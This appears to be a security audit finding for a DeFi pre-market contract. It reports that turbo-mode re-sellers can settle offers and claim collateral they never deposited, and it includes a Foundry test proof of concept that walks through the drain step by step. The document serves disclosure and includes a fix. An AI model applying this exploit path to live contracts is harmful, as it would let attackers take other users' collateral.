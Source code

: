 ## Summary 📌

Re-sellers in turbo mode can use their offer structs to settle tokens and retrieve collateral they never deposited.

---

## Vulnerability Details 🔍 && Impact 📈

In a turbo chain of sellings, only first seller deposits collateral, next dont.

During this events, `Offer` structs are created for re-sellers. Problem is these offer structs can be used in `settleAskMaker()` during settlement. If the re-sellers also owns tokens, they can use their own tokens to withdraw collateral from the system they never deposited in the first place.

If the collateral that can be drainned is worth more than the tokens they got they will do it. Even if it was unprofitable this is still really bad as they are getting free collateral therefore undercollateralizing the system which, when all is settled will result in someone not being able to retrieve his full collateral amount.

---

## Proof Of Concept (PoC) 👨‍💻💻

Paste this test in the `PreMarkets.t.sol` file, import `import "forge-std/console.sol";`, and run `forge test --mt "test_settle_docs_freecol" -vv`:

<detials> <summary> See code test 👁️ </summary>

```solidity
    function test_settle_docs_freecol() public {
        console.log("-----------------");
        console.log("user -> Alice:  ", address(user));
        console.log("user1 -> Bob:   ", address(user1));
        console.log("-----------------");

        console.log("////////// STEP-1 //////////////");
        console.log("Alice creates an ask maker turbo offer and Bob buys part of it.");
        uint256 b_cache = mockUSDCToken.balanceOf(address(user));
        vm.prank(user);
        preMarktes.createOffer(
            CreateOfferParams(
                marketPlace,
                address(mockUSDCToken),
                1000,
                1000 * 1e18,
                10_000,
                100,
                OfferType.Ask,
                OfferSettleType.Turbo
            )
        );
        uint256 b_after = mockUSDCToken.balanceOf(address(user));
        address offerAddr = GenerateAddress.generateOfferAddress(0);

        console.log("////////// STEP-2 //////////////");
        console.log("Bob buys 500pts with 500$ and lists them.");
        vm.startPrank(user1);
        mockUSDCToken.approve(address(tokenManager), type(uint256).max);
        preMarktes.createTaker(offerAddr, 500);
        StockInfo memory stck = preMarktes.getStockInfo(GenerateAddress.generateStockAddress(1));
        console.log(
            "Now Bob lists those 500pts at 1.1$ each. Because of turbo mode he does not deposit any collateral."
        );
        console.log("No-one buys Bob points yet he will settle tokens and get some collateral accounted for him.");
        b_cache = mockUSDCToken.balanceOf(address(user1));
        preMarktes.listOffer(GenerateAddress.generateStockAddress(stck.id), 550 * 1e18, 10_000);
        b_after = mockUSDCToken.balanceOf(address(user1));
        console.log("Bob collateral balance when relisting changed by: ", b_after - b_cache);

        console.log("////////////////////////////////");
        console.log("/////////    SETTLEMENT   //////////");
        console.log("///////////////////////////////");

        offerAddr = GenerateAddress.generateOfferAddress(0);
        vm.startPrank(user1);
        systemConfig.updateMarket("Backpack", address(mockPointToken), 0.01 * 1e18, block.timestamp - 1, 3600);

        console.log("Bob, a re-seller that did not need to deposit collateral settles his offer.");
        deal(address(mockPointToken), user1, 100000000 * 10 ** 18);
        offerAddr = GenerateAddress.generateOfferAddress(1);
        b_cache =
            tokenManager.userTokenBalanceMap(address(user1), address(mockUSDCToken), TokenBalanceType.SalesRevenue);
        vm.startPrank(user1);
        mockPointToken.approve(address(tokenManager), 10000 * 10 ** 18);
        deliveryPlace.settleAskMaker(offerAddr, preMarktes.getOfferInfo(offerAddr).usedPoints);
        b_after =
            tokenManager.userTokenBalanceMap(address(user1), address(mockUSDCToken), TokenBalanceType.SalesRevenue);

        console.log("Collateral Accunted for Bob: ", b_after - b_cache);
        console.log("Now Bob can withdraw collateral, that clearly belongs to Alice if she settled her tokens.");
    }
```

</details>

---

## **Tools Used 🛠️**

- Manual review.

---

## Recommendations 🎯

Do not allow `Offers` that come from a turbo maker to be settled as they do not relate to any collateral being deposited. For that you can just check the `maker` member of an `Offer` struct.

---